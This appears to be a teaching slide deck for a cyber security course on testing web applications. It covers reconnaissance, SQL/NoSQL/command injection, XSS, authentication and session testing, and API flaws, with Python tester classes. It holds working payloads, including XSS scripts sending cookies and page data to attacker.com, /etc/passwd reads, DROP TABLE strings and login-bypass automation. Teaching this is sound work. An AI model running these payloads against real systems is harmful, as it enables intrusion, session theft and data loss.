

# Web Application Security Testing
## Unit IV: Ethical Hacking
### Lecture 31: Securing Modern Web Applications

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Web Application Security Overview

<div class="grid grid-cols-2 gap-8">

<div>

## 🌐 Modern Web Application Landscape

**Web applications** are software programs delivered through web browsers, presenting unique security challenges due to their complexity and accessibility.

### 📊 Web Security Statistics
- **43% of data breaches** involve web applications
- **Average vulnerabilities per app**: 76 security flaws
- **Time to remediation**: 205 days average
- **OWASP Top 10**: Found in 87% of applications
- **API security**: 83% of traffic is API-based
- **Mobile web**: 54% of attacks target mobile apps

### 🔄 Attack Surface Evolution


</div>

<div>

## 🎯 OWASP Top 10 (2021)

### 🔥 Critical Vulnerabilities
```yaml
A01 - Broken Access Control:
  Impact: Unauthorized data access
  Examples: Path traversal, privilege escalation
  Prevalence: 94% of applications

A02 - Cryptographic Failures:
  Impact: Data exposure
  Examples: Weak encryption, missing TLS
  Prevalence: 60% of applications

A03 - Injection:
  Impact: Data/system compromise
  Examples: SQL, NoSQL, OS command injection
  Prevalence: 94% contain some form

A04 - Insecure Design:
  Impact: Systemic vulnerabilities
  Examples: Missing security controls
  Prevalence: New category, widespread

A05 - Security Misconfiguration:
  Impact: System compromise
  Examples: Default credentials, verbose errors
  Prevalence: 90% of applications
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Web Application Testing Methodology

<div class="grid grid-cols-2 gap-8">

<div>

## 🔍 Information Gathering Phase

### 🕵️ Reconnaissance Techniques
```bash
# Technology stack identification
whatweb https://target.com
wappalyzer-cli https://target.com

# Directory and file enumeration
dirb https://target.com /usr/share/dirb/wordlists/common.txt
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Subdomain enumeration
subfinder -d target.com
amass enum -d target.com

# Google dorking
site:target.com filetype:pdf
site:target.com inurl:admin
site:target.com "index of"
```

### 📊 Application Fingerprinting
```python
# Web app fingerprinting script
import requests
from urllib.parse import urljoin
import re

class WebAppFingerprinter:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.fingerprints = {}
    
    def fingerprint_technologies(self):
        """Identify web technologies"""
        try:
            response = self.session.get(self.target_url)
            
            # Server identification
            server = response.headers.get('Server', 'Unknown')
            self.fingerprints['server'] = server
            
            # Framework detection
            frameworks = self.detect_frameworks(response)
            self.fingerprints['frameworks'] = frameworks
            
            # CMS detection
            cms = self.detect_cms(response)
            self.fingerprints['cms'] = cms
            
            return self.fingerprints
            
        except Exception as e:
            print(f"[!] Fingerprinting failed: {e}")
            return None
    
    def detect_frameworks(self, response):
        """Detect web frameworks"""
        frameworks = []
        
        framework_patterns = {
            'Django': [r'csrfmiddlewaretoken', r'__admin'],
            'Laravel': [r'laravel_session', r'_token'],
            'Spring': [r'JSESSIONID', r'spring'],
            'Express.js': [r'express', r'connect.sid'],
            'ASP.NET': [r'__VIEWSTATE', r'aspxauth']
        }
        
        content = response.text.lower()
        
        for framework, patterns in framework_patterns.items():
            if any(re.search(pattern, content) for pattern in patterns):
                frameworks.append(framework)
        
        return frameworks
```

</div>

<div>

## 🎯 Vulnerability Assessment

### 🔧 Automated Scanning Tools
```yaml
Web Vulnerability Scanners:
  Burp Suite Professional:
    - Comprehensive web testing
    - Active/passive scanning
    - Manual testing support
    - Extensive plugin ecosystem

  OWASP ZAP:
    - Open-source web proxy
    - Automated scanning
    - API testing capabilities
    - CI/CD integration

  Acunetix:
    - Advanced crawling engine
    - Out-of-band detection
    - AcuSensor technology
    - SDLC integration

  Netsparker:
    - Proof-based scanning
    - False positive reduction
    - Enterprise scalability
    - Compliance reporting
```

### 🛠️ Manual Testing Tools
```bash
# Burp Suite configuration
# Set up proxy on 127.0.0.1:8080
# Configure browser proxy settings

# SQLmap for SQL injection testing
sqlmap -u "http://target.com/page.php?id=1" --batch --dbs

# XSS testing with XSSer
xsser -u "http://target.com/search.php?q=test"

# Directory traversal testing
curl "http://target.com/page.php?file=../../../etc/passwd"
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Injection Attack Testing

<div class="grid grid-cols-2 gap-8">

<div>

## 💉 SQL Injection Testing

### 🎯 Detection and Exploitation
```sql
-- Basic SQL injection tests
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*

-- Union-based injection
' UNION SELECT 1,2,3,4,5 --
' UNION SELECT user(),database(),version() --

-- Boolean-based blind injection
' AND (SELECT SUBSTRING(user(),1,1))='r' --

-- Time-based blind injection
'; WAITFOR DELAY '00:00:05' --
' AND (SELECT SLEEP(5)) --

-- Error-based injection
' AND EXTRACTVALUE(rand(),CONCAT(0x7e,version(),0x7e)) --
```

### 🛠️ Advanced SQL Injection
```python
# SQLmap automation for comprehensive testing
import subprocess
import json

class SQLInjectionTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.results = {}
    
    def comprehensive_test(self):
        """Perform comprehensive SQL injection testing"""
        tests = {
            'basic_injection': self.test_basic_injection,
            'database_enumeration': self.enumerate_databases,
            'table_enumeration': self.enumerate_tables,
            'data_extraction': self.extract_data,
            'file_operations': self.test_file_operations,
            'os_commands': self.test_os_commands
        }
        
        for test_name, test_func in tests.items():
            print(f"[*] Running {test_name}")
            result = test_func()
            self.results[test_name] = result
    
    def test_basic_injection(self):
        """Test for basic SQL injection"""
        cmd = [
            'sqlmap', '-u', self.target_url,
            '--batch', '--level=3', '--risk=2'
        ]
        
        result = subprocess.run(cmd, capture_output=True, text=True)
        return result.stdout
    
    def enumerate_databases(self):
        """Enumerate available databases"""
        cmd = [
            'sqlmap', '-u', self.target_url,
            '--batch', '--dbs'
        ]
        
        result = subprocess.run(cmd, capture_output=True, text=True)
        return result.stdout
```

</div>

<div>

## 🌐 NoSQL and Command Injection

### 📊 NoSQL Injection Testing
```javascript
// MongoDB injection examples
{"$where": "this.username == 'admin'"}
{"username": {"$regex": "^admin"}}
{"username": {"$ne": null}}
{"username": {"$in": ["admin", "administrator"]}}

// CouchDB injection
{"selector": {"username": {"$regex": ".*admin.*"}}}

// Cassandra injection
SELECT * FROM users WHERE username = 'admin' ALLOW FILTERING
```

### ⚡ OS Command Injection
```bash
# Command injection payloads
; ls -la
| whoami
& net user
&& ping -c 4 127.0.0.1
|| cat /etc/passwd

# URL encoded payloads
%3B+ls+-la
%7C+whoami
%26+net+user
%26%26+ping+-c+4+127.0.0.1

# Advanced evasion
`ls -la`
$(ls -la)
${IFS}ls${IFS}-la
```

### 🔧 Injection Testing Framework
```python
# Comprehensive injection tester
class InjectionTester:
    def __init__(self, target_url, parameter):
        self.target_url = target_url
        self.parameter = parameter
        self.payloads = self.load_payloads()
    
    def load_payloads(self):
        """Load injection payloads"""
        return {
            'sql': [
                "' OR '1'='1",
                "'; DROP TABLE users; --",
                "' UNION SELECT version() --"
            ],
            'nosql': [
                '{"$where": "1==1"}',
                '{"$regex": ".*"}',
                '{"$ne": null}'
            ],
            'command': [
                '; ls -la',
                '| whoami',
                '&& id'
            ],
            'ldap': [
                '*)(uid=*',
                '*)(|(uid=*))',
                '*)(&(uid=*))'
            ]
        }
    
    def test_all_injections(self):
        """Test all injection types"""
        results = {}
        
        for injection_type, payloads in self.payloads.items():
            results[injection_type] = []
            
            for payload in payloads:
                result = self.test_payload(payload)
                if result['vulnerable']:
                    results[injection_type].append({
                        'payload': payload,
                        'response_time': result['response_time'],
                        'evidence': result['evidence']
                    })
        
        return results
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Cross-Site Scripting (XSS) Testing

<div class="grid grid-cols-2 gap-8">

<div>

## 🚨 XSS Attack Types and Testing

### ⚡ Reflected XSS
```html
<!-- Basic reflected XSS payloads -->
<script>alert('XSS')</script>

<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">

<!-- Filter evasion -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
```

### 💾 Stored XSS
```html
<!-- Persistent XSS payloads -->
<script>
document.cookie="session="+document.cookie;
new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;
</script>

<!-- Advanced payloads -->
<script>
fetch('/admin/users')
.then(response => response.text())
.then(data => {
    new Image().src = 'http://attacker.com/data.php?data=' + btoa(data);
});
</script>
```

### 🔧 DOM-based XSS
```javascript
// DOM XSS vulnerable code patterns
document.write(location.hash.substring(1));
element.innerHTML = location.search.substring(1);
eval(location.hash.substring(1));

// DOM XSS payloads
#<script>alert('DOM XSS')</script>
#
```

</div>

<div>

## 🛠️ XSS Testing Tools and Techniques

### 🎯 Automated XSS Detection
```python
# XSS testing framework
import requests
from urllib.parse import quote
import re

class XSSTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.payloads = self.load_xss_payloads()
        self.found_vulnerabilities = []
    
    def load_xss_payloads(self):
        """Load XSS testing payloads"""
        return [
            '<script>alert("XSS")</script>',
            '',
            '<svg onload=alert("XSS")>',
            '"><script>alert("XSS")</script>',
            "'><script>alert('XSS')</script>",
            '<iframe src="javascript:alert(\'XSS\')">',
            '<body onload=alert("XSS")>',
            '<script>alert(String.fromCharCode(88,83,83))</script>',
            '<script>alert(/XSS/)</script>',
            '<ScRiPt>alert("XSS")</ScRiPt>',
            '<script>alert`XSS`</script>'
        ]
    
    def test_reflected_xss(self, parameters):
        """Test for reflected XSS"""
        print("[*] Testing for reflected XSS...")
        
        for param in parameters:
            for payload in self.payloads:
                test_url = f"{self.target_url}?{param}={quote(payload)}"
                
                try:
                    response = self.session.get(test_url, timeout=10)
                    
                    # Check if payload is reflected
                    if payload in response.text:
                        vulnerability = {
                            'type': 'Reflected XSS',
                            'parameter': param,
                            'payload': payload,
                            'url': test_url,
                            'severity': 'High'
                        }
                        self.found_vulnerabilities.append(vulnerability)
                        print(f"  [+] XSS found in parameter: {param}")
                        
                except Exception as e:
                    continue
    
    def test_dom_xss(self):
        """Test for DOM-based XSS"""
        print("[*] Testing for DOM-based XSS...")
        
        dom_payloads = [
            '#<script>alert("DOM XSS")</script>',
            '#',
            '#"><script>alert("DOM XSS")</script>'
        ]
        
        for payload in dom_payloads:
            test_url = f"{self.target_url}{payload}"
            
            try:
                response = self.session.get(test_url, timeout=10)
                
                # Look for DOM manipulation patterns
                dom_patterns = [
                    r'document\.write\(',
                    r'innerHTML\s*=',
                    r'location\.hash',
                    r'location\.search'
                ]
                
                for pattern in dom_patterns:
                    if re.search(pattern, response.text):
                        vulnerability = {
                            'type': 'DOM-based XSS',
                            'payload': payload,
                            'url': test_url,
                            'pattern': pattern,
                            'severity': 'High'
                        }
                        self.found_vulnerabilities.append(vulnerability)
                        print(f"  [+] Potential DOM XSS found")
                        
            except Exception as e:
                continue
```

### 🔍 Browser-Based Testing
```javascript
// XSS detection in browser console
// Test for reflected XSS
function testReflectedXSS() {
    const testPayload = '';
    const url = new URL(window.location);
    
    // Test each parameter
    for (let [key, value] of url.searchParams) {
        url.searchParams.set(key, testPayload);
        console.log(`Testing parameter: ${key}`);
        console.log(`Test URL: ${url.toString()}`);
    }
}

// Test for DOM XSS sinks
function findDOMSinks() {
    const dangerousFunctions = [
        'document.write',
        'innerHTML',
        'outerHTML',
        'eval',
        'setTimeout',
        'setInterval'
    ];
    
    // Check for dangerous function usage
    dangerousFunctions.forEach(func => {
        if (document.body.innerHTML.includes(func)) {
            console.log(`Potential sink found: ${func}`);
        }
    });
}
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Authentication and Session Management

<div class="grid grid-cols-2 gap-8">

<div>

## 🔐 Authentication Bypass Testing

### 🎯 Common Bypass Techniques
```yaml
Authentication Weaknesses:
  Default Credentials:
    - admin/admin, admin/password
    - root/root, administrator/password
    - guest/guest, user/user

  SQL Injection Bypass:
    - admin' OR '1'='1' --
    - admin' /*comment*/ OR '1'='1'
    - admin'; DROP TABLE users; --

  Logic Flaws:
    - Parameter manipulation
    - Request method changes
    - Race conditions
    - State manipulation

  Brute Force Vulnerabilities:
    - No rate limiting
    - Weak lockout policies
    - Predictable passwords
    - Account enumeration
```

### 🛠️ Testing Tools and Scripts
```python
# Authentication testing framework
import requests
from itertools import product
import time

class AuthenticationTester:
    def __init__(self, target_url, username_list, password_list):
        self.target_url = target_url
        self.usernames = username_list
        self.passwords = password_list
        self.session = requests.Session()
        self.successful_logins = []
    
    def test_default_credentials(self):
        """Test common default credentials"""
        default_creds = [
            ('admin', 'admin'),
            ('admin', 'password'),
            ('root', 'root'),
            ('administrator', 'administrator'),
            ('guest', 'guest'),
            ('test', 'test')
        ]
        
        print("[*] Testing default credentials...")
        
        for username, password in default_creds:
            if self.attempt_login(username, password):
                self.successful_logins.append((username, password))
                print(f"  [+] Success: {username}:{password}")
    
    def test_sql_injection_bypass(self):
        """Test SQL injection authentication bypass"""
        sql_payloads = [
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR 1=1 --",
            "admin' --",
            "admin' /*",
            "' OR 'a'='a",
            "' OR 1=1#"
        ]
        
        print("[*] Testing SQL injection bypass...")
        
        for payload in sql_payloads:
            if self.attempt_login(payload, "password"):
                print(f"  [+] SQL injection bypass successful: {payload}")
                return True
        
        return False
    
    def attempt_login(self, username, password):
        """Attempt login with given credentials"""
        data = {
            'username': username,
            'password': password
        }
        
        try:
            response = self.session.post(
                self.target_url,
                data=data,
                timeout=10,
                allow_redirects=False
            )
            
            # Check for successful login indicators
            success_indicators = [
                response.status_code in [200, 302],
                'dashboard' in response.text.lower(),
                'welcome' in response.text.lower(),
                'logout' in response.text.lower(),
                'profile' in response.text.lower()
            ]
            
            failure_indicators = [
                'invalid' in response.text.lower(),
                'incorrect' in response.text.lower(),
                'failed' in response.text.lower(),
                'error' in response.text.lower()
            ]
            
            return any(success_indicators) and not any(failure_indicators)
            
        except Exception as e:
            return False
```

</div>

<div>

## 🍪 Session Management Testing

### 🔍 Session Security Analysis
```python
# Session security tester
class SessionTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
    
    def analyze_session_cookies(self):
        """Analyze session cookie security"""
        response = self.session.get(self.target_url)
        
        for cookie in response.cookies:
            cookie_analysis = {
                'name': cookie.name,
                'value': cookie.value,
                'secure': cookie.secure,
                'httponly': 'HttpOnly' in str(cookie),
                'samesite': self.extract_samesite(cookie),
                'expires': cookie.expires
            }
            
            # Check for security issues
            issues = []
            
            if not cookie.secure:
                issues.append("Missing Secure flag")
            
            if not cookie_analysis['httponly']:
                issues.append("Missing HttpOnly flag")
            
            if not cookie_analysis['samesite']:
                issues.append("Missing SameSite attribute")
            
            if self.is_predictable_session_id(cookie.value):
                issues.append("Predictable session ID")
            
            if issues:
                self.vulnerabilities.append({
                    'type': 'Session Cookie Security',
                    'cookie': cookie.name,
                    'issues': issues,
                    'severity': 'Medium'
                })
    
    def test_session_fixation(self):
        """Test for session fixation vulnerabilities"""
        # Get initial session ID
        response1 = self.session.get(self.target_url)
        initial_session = self.extract_session_id(response1)
        
        # Attempt login
        login_data = {'username': 'test', 'password': 'test'}
        response2 = self.session.post(f"{self.target_url}/login", data=login_data)
        
        # Check if session ID changed
        post_login_session = self.extract_session_id(response2)
        
        if initial_session == post_login_session:
            self.vulnerabilities.append({
                'type': 'Session Fixation',
                'description': 'Session ID not regenerated after login',
                'severity': 'High'
            })
    
    def test_session_hijacking(self):
        """Test session hijacking resistance"""
        # Test if session works from different IP
        # Test if session works with different User-Agent
        # Test concurrent session limits
        pass
    
    def is_predictable_session_id(self, session_id):
        """Check if session ID is predictable"""
        # Simple entropy check
        unique_chars = len(set(session_id))
        return unique_chars < len(session_id) * 0.6
```

### 🔒 Session Security Best Practices
```yaml
Secure Session Management:
  Cookie Security:
    - Secure flag for HTTPS
    - HttpOnly flag to prevent XSS
    - SameSite attribute for CSRF protection
    - Appropriate expiration times

  Session ID Requirements:
    - High entropy (128+ bits)
    - Cryptographically random
    - Regular regeneration
    - Secure transmission only

  Session Lifecycle:
    - Regenerate on privilege change
    - Proper session termination
    - Concurrent session limits
    - Idle timeout enforcement
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# API Security Testing

<div class="grid grid-cols-2 gap-8">

<div>

## 🔌 REST API Security Assessment

### 📡 API Discovery and Enumeration
```bash
# API endpoint discovery
dirb https://api.target.com /usr/share/dirb/wordlists/common.txt
gobuster dir -u https://api.target.com -w /usr/share/wordlists/api-endpoints.txt

# API documentation discovery
curl -s https://api.target.com/docs
curl -s https://api.target.com/swagger
curl -s https://api.target.com/openapi.json

# HTTP method enumeration
for method in GET POST PUT DELETE PATCH OPTIONS; do
    curl -X $method https://api.target.com/users/1
done
```

### 🛠️ API Testing Framework
```python
# Comprehensive API security tester
import requests
import json
from urllib.parse import urljoin

class APISecurityTester:
    def __init__(self, base_url, auth_token=None):
        self.base_url = base_url
        self.session = requests.Session()
        
        if auth_token:
            self.session.headers.update({
                'Authorization': f'Bearer {auth_token}'
            })
        
        self.vulnerabilities = []
        self.endpoints = []
    
    def discover_endpoints(self):
        """Discover API endpoints"""
        discovery_paths = [
            '/swagger.json',
            '/openapi.json',
            '/api/docs',
            '/docs',
            '/api-docs',
            '/swagger-ui.html',
            '/redoc',
            '/.well-known/openapi_definition'
        ]
        
        for path in discovery_paths:
            try:
                response = self.session.get(urljoin(self.base_url, path))
                if response.status_code == 200:
                    print(f"[+] Found API documentation: {path}")
                    self.parse_api_spec(response.json())
            except:
                continue
    
    def test_authentication_bypass(self):
        """Test for authentication bypass"""
        bypass_techniques = [
            {'header': 'X-Forwarded-For', 'value': '127.0.0.1'},
            {'header': 'X-Real-IP', 'value': '127.0.0.1'},
            {'header': 'X-Originating-IP', 'value': '127.0.0.1'},
            {'header': 'X-Remote-IP', 'value': '127.0.0.1'},
            {'header': 'X-Client-IP', 'value': '127.0.0.1'},
        ]
        
        for endpoint in self.endpoints:
            for technique in bypass_techniques:
                headers = {technique['header']: technique['value']}
                
                try:
                    response = self.session.get(
                        urljoin(self.base_url, endpoint),
                        headers=headers
                    )
                    
                    if response.status_code == 200:
                        self.vulnerabilities.append({
                            'type': 'Authentication Bypass',
                            'endpoint': endpoint,
                            'technique': technique,
                            'severity': 'Critical'
                        })
                        
                except Exception:
                    continue
    
    def test_injection_vulnerabilities(self):
        """Test for injection vulnerabilities in APIs"""
        injection_payloads = {
            'sql': ["'", "' OR '1'='1", "'; DROP TABLE users; --"],
            'nosql': ['{"$where": "1==1"}', '{"$regex": ".*"}'],
            'command': ['; ls', '| whoami', '&& id'],
            'ldap': ['*)(uid=*', '*)(|(uid=*))', '*)(&(uid=*))']
        }
        
        for endpoint in self.endpoints:
            for injection_type, payloads in injection_payloads.items():
                for payload in payloads:
                    # Test in URL parameters
                    test_url = f"{urljoin(self.base_url, endpoint)}?id={payload}"
                    
                    # Test in POST body
                    test_data = json.dumps({'id': payload, 'data': payload})
                    
                    try:
                        # GET request test
                        response = self.session.get(test_url)
                        if self.detect_injection_success(response, injection_type):
                            self.vulnerabilities.append({
                                'type': f'{injection_type.upper()} Injection',
                                'endpoint': endpoint,
                                'method': 'GET',
                                'payload': payload,
                                'severity': 'Critical'
                            })
                        
                        # POST request test
                        response = self.session.post(
                            urljoin(self.base_url, endpoint),
                            data=test_data,
                            headers={'Content-Type': 'application/json'}
                        )
                        
                        if self.detect_injection_success(response, injection_type):
                            self.vulnerabilities.append({
                                'type': f'{injection_type.upper()} Injection',
                                'endpoint': endpoint,
                                'method': 'POST',
                                'payload': payload,
                                'severity': 'Critical'
                            })
                            
                    except Exception:
                        continue
    
    def detect_injection_success(self, response, injection_type):
        """Detect successful injection attacks"""
        indicators = {
            'sql': ['mysql_fetch_array', 'ORA-01756', 'Microsoft OLE DB Provider'],
            'nosql': ['MongoError', 'CouchDB', 'Cannot resolve'],
            'command': ['uid=', 'gid=', 'root:', 'bin/'],
            'ldap': ['LdapErr', 'Protocol error', 'Invalid DN']
        }
        
        content = response.text.lower()
        return any(indicator.lower() in content for indicator in indicators.get(injection_type, []))
```

</div>

<div>

## 🔐 Authorization and Access Control

### 🎯 IDOR (Insecure Direct Object Reference)
```python
# IDOR testing automation
class IDORTester:
    def __init__(self, base_url, auth_token):
        self.base_url = base_url
        self.auth_token = auth_token
        self.session = requests.Session()
        self.session.headers.update({
            'Authorization': f'Bearer {auth_token}'
        })
    
    def test_idor_vulnerabilities(self):
        """Test for IDOR vulnerabilities"""
        # Common IDOR patterns
        idor_patterns = [
            '/api/users/{id}',
            '/api/orders/{id}',
            '/api/documents/{id}',
            '/api/profiles/{id}',
            '/api/accounts/{id}'
        ]
        
        for pattern in idor_patterns:
            self.test_sequential_access(pattern)
            self.test_privilege_escalation(pattern)
    
    def test_sequential_access(self, pattern):
        """Test sequential ID access"""
        # Test access to multiple sequential IDs
        for user_id in range(1, 100):
            endpoint = pattern.format(id=user_id)
            
            try:
                response = self.session.get(urljoin(self.base_url, endpoint))
                
                if response.status_code == 200:
                    # Analyze response for sensitive data
                    if self.contains_sensitive_data(response.json()):
                        print(f"[+] IDOR found: {endpoint}")
                        
            except Exception:
                continue
    
    def contains_sensitive_data(self, data):
        """Check if response contains sensitive information"""
        sensitive_fields = [
            'password', 'email', 'phone', 'ssn', 'credit_card',
            'address', 'salary', 'api_key', 'token'
        ]
        
        data_str = json.dumps(data).lower()
        return any(field in data_str for field in sensitive_fields)
```

### 🔍 Mass Assignment Testing
```python
# Mass assignment vulnerability testing
def test_mass_assignment(endpoint, auth_headers):
    """Test for mass assignment vulnerabilities"""
    # Get original object
    response = requests.get(endpoint, headers=auth_headers)
    original_data = response.json()
    
    # Common privilege escalation fields
    privilege_fields = {
        'role': 'admin',
        'is_admin': True,
        'permissions': ['admin', 'read', 'write', 'delete'],
        'user_type': 'admin',
        'level': 999,
        'status': 'active'
    }
    
    # Test each field
    for field, value in privilege_fields.items():
        test_data = original_data.copy()
        test_data[field] = value
        
        # Attempt to update with privilege escalation
        update_response = requests.put(
            endpoint,
            json=test_data,
            headers=auth_headers
        )
        
        if update_response.status_code in [200, 204]:
            # Verify if privilege was actually assigned
            verify_response = requests.get(endpoint, headers=auth_headers)
            
            if verify_response.json().get(field) == value:
                print(f"[+] Mass assignment vulnerability: {field} = {value}")
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Comprehensive Web App Assessment

<div class="exercise-container">

## 🎯 Full-Scale Web Application Security Test (35 minutes)

### Mission: E-commerce Platform Security Assessment

Conduct a thorough security assessment of **"SecureShop Pro"**, an e-commerce platform handling sensitive customer and financial data.

### 🛒 Application Profile
**Platform Details:**
- **Modern web application** (React frontend, Node.js backend)
- **RESTful API** architecture with microservices
- **User authentication** system (registration, login, profiles)
- **Payment processing** integration (credit cards, digital wallets)
- **Administrative panel** for order and inventory management
- **Mobile app** API endpoints for iOS/Android applications

### Phase 1: Reconnaissance and Information Gathering (12 minutes)

**Team Task: Complete Application Analysis**

1. **Technology Stack Discovery**
   - Identify web technologies, frameworks, and libraries
   - Map application architecture and components
   - Discover API endpoints and documentation
   - Analyze client-side JavaScript and third-party integrations

2. **Attack Surface Mapping**
   - Enumerate all input points and parameters
   - Identify authentication and authorization mechanisms
   - Map user roles and privilege levels
   - Document file upload and data processing functionalities

### Phase 2: Vulnerability Assessment and Testing (15 minutes)

**Comprehensive Security Testing:**
1. **Injection Vulnerability Testing**
   - SQL injection testing across all parameters
   - NoSQL injection for modern database backends
   - Command injection in system interfaces
   - LDAP injection in directory services

2. **Cross-Site Scripting (XSS) Assessment**
   - Reflected XSS in all user inputs
   - Stored XSS in persistent data fields
   - DOM-based XSS in client-side processing
   - XSS filter bypass and evasion techniques

3. **Authentication and Session Security**
   - Brute force and credential stuffing attacks
   - Session management and fixation testing
   - Multi-factor authentication bypass attempts
   - Password policy and account lockout evaluation

### Phase 3: Business Logic and API Security (8 minutes)

**Advanced Security Testing:**
1. **Business Logic Vulnerabilities**
   - Price manipulation and discount abuse
   - Inventory and stock management flaws
   - Order processing and payment bypass
   - Race condition and timing attacks

2. **API Security Assessment**
   - IDOR (Insecure Direct Object Reference) testing
   - Mass assignment vulnerability detection
   - API rate limiting and abuse prevention
   - Authorization bypass and privilege escalation

**Deliverables:**
- Complete web application security assessment report
- Prioritized vulnerability findings with CVSS scoring
- Proof-of-concept demonstrations for critical issues
- Comprehensive remediation roadmap with implementation guidance

</div>

<style>
.exercise-container {
  @apply bg-green-50 border-2 border-green-300 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Critical Thinking Points:
- How do modern web frameworks impact traditional vulnerability testing?
- What challenges do single-page applications (SPAs) present for security testing?
- How can organizations integrate security testing into DevOps pipelines?

### 💡 Exercise Review
Present your web application security assessment strategies and discuss findings

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: Reporting and Documentation
### Communicating Security Findings Effectively

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 31 Complete</p>
  <p>Web security: Protecting the digital storefront! 🌐🔒</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>